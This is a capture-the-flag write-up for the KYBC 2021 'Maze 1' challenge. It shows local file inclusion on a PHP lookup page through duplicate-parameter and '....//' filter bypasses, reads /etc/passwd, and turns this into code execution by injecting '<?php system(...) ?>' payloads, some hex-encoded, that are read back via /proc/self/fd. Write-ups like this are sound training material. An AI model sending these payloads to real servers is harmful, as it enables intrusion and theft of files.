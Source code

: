 Title: KYBC 2021 - Maze 1 Writeup
Date: 2021-03-17
Category: CTF
Tags: ctf, lfi, rce, kybc
Slug: kybc-yogosha-2021-maze-1-writeups
Author: Giulia Vergottini
Summary: Writeup for Maze 1 challenge at KYBC CTF


The site is basically a search box that checks for matching txt files and then redirects to `http://5.150.254.85:8082/lookup.php?f=file.txt` to display the content of the file. `flag.txt` obviously leads to a fake flag, but the whole thing looks like a potential LFI.

Trying to reach a file with an extension other than `.txt` results in an error. However, appending an extra `f` parameters after one with the `.txt` extension lets me bypass the extension check and access the content of the last file.

The txt files are inside a `files/` folder and there seem to be some sort of sanitization mechanism, since `../` get stripped away. However, the filter applies only to that specific pattern, so `....//` becomes `../` after sanitation and allows me to look up into the parent folder.

Combining the two bypasses together gets me the `etc/passwd` file:

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//etc/passwd`
```

The flag doesn't seem to be there though.

Let's see if it is possible to turn this LFI into an RCE, since trying to guess name and location of the flag doesn't sound like a realistic strategy.

By examining the `proc/self/fd` folder I discover that `proc/self/fd/11` stores the serialized parameters of the search request. Let's see if we can write by making a POST request containing `<?php system('id'); ?>`

```
http://5.150.254.85:8082/search=%3C%3Fphp+system%28%27id%27%29%3B+%3F%3E&submit=submit
```
and check the proc file again

```
http://5.150.254.85:8082/lookup.php?f=flag.txt&f=....//....//....//....//proc/self/fd/11
```

Yeah! The code gets executed and the result gets saved into it!!

Let's run `ls /`
```
http://5.150.254.85:8082/search=%3C%3Fphp%20system%28%27ls%20-al%27%29%3B%20%3F%3E&submit=submit

```
and check the outcome in the proc file. No flag in the root folder, but `home/ctf_user1` seems interesting:
```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%6c%73%20%2d%61%6c%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%27%29%3b%20%3f%3e&submit=submit
```

there's the flag - let's cat it!

```
http://5.150.254.85:8082/search=%3c%3f%70%68%70%20%73%79%73%74%65%6d%28%27%63%61%74%20%2f%68%6f%6d%65%2f%63%74%66%5f%75%73%65%72%31%2f%2e%33%33%36%64%35%65%62%63%35%34%33%36%35%33%34%65%36%31%64%31%36%65%36%33%64%64%66%63%61%33%32%37%5f%66%6c%61%67%31%2e%74%78%74%27%29%3b%20%3f%3e&submit=submit
```

Success! `FLAG_c4a66ead822b8d2dd42da826eb180371`
